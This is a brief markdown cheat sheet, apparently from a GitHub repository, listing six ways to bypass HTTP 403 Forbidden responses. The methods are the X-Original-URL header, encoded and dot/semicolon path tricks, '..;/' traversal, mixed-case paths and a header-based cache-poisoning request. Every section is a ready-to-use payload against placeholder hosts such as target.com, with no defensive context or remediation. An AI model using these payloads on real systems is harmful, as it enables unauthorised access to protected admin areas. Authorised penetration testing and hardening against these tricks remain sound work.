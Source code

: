 # HTTP Code 403 (Forbidden) Bypass

### 1) X-Original-URL header

    GET /admin HTTP/1.1
    Host: target.com
    X-Original-URL: /admin

### 2) Appending %2e after the first slash

    http://target.com/%2e/admin

### 3) Dot (.) slash (/) and semicolon (;) in the URL

    http://target.com/secret/.
    http://target.com/secret//
    http://target.com/secret/..
    http://target.com/;/secret/
    http://target.com/.;/secret/
    http://target.com//;//secret/

### 4) Add "..;/" after the directory name

    http://target.com/admin..;/

### 5) Uppercase alphabet in the URL

    http://target.com/aDmIN

### 6) Web Cache Poisoning

    GET /anything HTTP/1.1
    Host: victim.com
    X-Original-URL: /admin
